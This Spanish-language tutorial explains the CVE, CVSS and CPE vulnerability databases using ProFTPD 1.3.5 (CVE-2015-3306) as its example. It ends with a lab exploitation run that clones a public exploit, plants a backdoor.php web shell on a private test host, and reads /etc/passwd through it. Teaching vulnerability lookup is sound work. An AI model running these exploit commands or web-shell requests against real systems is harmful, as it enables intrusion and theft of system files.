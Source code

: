 # CVE, CVSS, CPE - Common Vulnerabilities and Exposures

Hay una pagina bastante famosa la cual recopila todas las vulnerabilidades que vayan exsistiendo y les asigna un numero, por lo que este numero sera el identificativo a dicha vulnerabilidad, todo esto se lo proporciona la empresa `mitre` cada vulnerabilidad que vaya saliendo se va implementando en esta base de datos:

URL = [Pagina CVE BB.DD.](https://cve.mitre.org)

Si nosotros buscamos una vulnerabilidad que sospechamos que puede ser vulnerable, podremos buscarlo en el boton de `Search CVE`, por ejemplo si buscamos una version de `FTP` que encontramos en nuestras maquinas de prueba en mi caso la de `Linux - Ubuntu` vimos que era un `ProFTPD 1.3.5`, por lo que si buscamos eso veremos que esta asignado a un `CVE-2015-3306` por lo que tiene una vulnerabilidad que se indica con ese numero y si te metes en dicha vulnerabilidad podremos ver la descripcion de en que consiste esa vulnerabilidad.

Despues te muestra las referencias donde puede encontrar mas informacion sobre esa vulnerabilidad y como se podria aprovechar para poder ser explotada.

Con este identificador que obtenemos, lo que podemos hacer es buscarlo en `google` con el identificador e investigar herramientas que esten creadas en `GitHub` con el lenguaje de programacion que queramos buscar para poder explotar estas vulnerabilidades.

Por ejemplo de esta vulnerabilidad si se busca un poco, podremos encontrar el siguiente repositorio que esta mas actual y asi nos olvidamos de algun posible fallo a la hora de explotarlo con uno mas desactualizado.

URL = [Pagina Exploit CVE-2015-3306](https://github.com/t0kx/exploit-CVE-2015-3306/tree/master)

Si por ejemplo nosotros queremos identificar que nivel de peligrosidad tiene esta vulnerabilidad, podremos hacerlo consultando la siguiente pagina:

URL = [Pagina CVSS Nivel de peligro de un CVE](https://nvd.nist.gov/vuln/search)

Si buscamos la vulnerabilidad que encontramos anteriormente, podremos ver que nos la encuentra y nos indica que es bastante alta de peligro teniendo un `10` sobre `10`:

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Ya que con esta vulnerabilidad puede leer o copiar cualquier fichero del sistema, por lo que es bastante alta.

Cada una de las versiones de software tiene un `CPE` asociado, por lo que cuando sale una vulnerabilidad rapidamente podamos asociarlas con todas las versiones de ese software que se ven afectadas por esta vulnerabilidad, en esta pagina mas abajo se ven los `CPE` que van asociados a esta vulnerabilidad por los que se le puede identificar.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Hay otra pagina que te engloba todo esto, por la que se puede buscar por el nombre del servicio y version, esta pagina te muestra los resultados con su `CVE` asociado y a parte tambien te muestra el riesgo de dicha vulnerabilidad, te muestra tambien el `PCE` mostrandotelo todo por lo que es mas sencillo de ver:

URL = [Pagina CVE Details](https://www.cvedetails.com)

Y con la vulnerabilidad que hemos encontrado podriamos aprovecharla en la fase de explotacion, que seria algo asi:

```shell
git clone https://github.com/t0kx/exploit-CVE-2015-3306.git
cd exploit-CVE-2015-3306/
```

```shell
./exploit.py --host 192.168.16.129 --port 21 --path /var/www/html
```

Info:

```
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 192.168.16.129:21
[+] Target exploited, acessing shell at http://192.168.16.129/backdoor.php
[+] Running whoami: www-data
[+] Done
```

Y si nos vamos al navegador y ponemos lo siguiente:

```
URL = http://192.168.16.129/backdoor.php?cmd=cat /etc/passwd
```

Podremos ver que nos vuelca toda la informacion del archivo `passwd` y mucho mas que podremos hacer, pero esto es para la fase de explotacion.
